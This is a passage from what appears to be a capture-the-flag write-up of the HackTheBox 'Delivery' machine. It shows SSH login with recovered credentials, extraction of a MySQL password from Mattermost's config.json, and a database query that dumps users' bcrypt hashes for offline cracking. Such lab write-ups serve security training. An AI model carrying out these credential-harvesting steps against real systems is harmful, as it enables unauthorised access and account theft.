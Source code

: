 With the `maildeliverer / Youve_G0t_Mail!` credentials we can SSH in and get the user flag.

![](/assets/images/htb-writeup-delivery/user.png)

## Credentials in MySQL database

After doing some recon we find the MatterMost installation directory in `/opt/mattermost`:

```
maildeliverer@Delivery:/opt/mattermost/config$ ps waux | grep -i mattermost
matterm+   741  0.2  3.3 1649596 135112 ?      Ssl  20:00   0:07 /opt/mattermost/bin/mattermost
```

The `config.json` file contains the password for the MySQL database:

```
[...]
"SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
[...]
```

We'll connect to the database server and poke around.

```
maildeliverer@Delivery:/$ mysql -u mmuser --password='Crack_The_MM_Admin_PW'
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 91
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
```

MatterMost user accounts are stored in the `Users` table and hashed with bcrypt. We'll save the hashes then try to crack them offline.

```
MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> select Username,Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| snowscan                         | $2a$10$spHk8ZGr54VWf4kNER/IReO.I63YH9d7WaYp9wjiRswDMR.P/Q9aa |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.002 sec)
```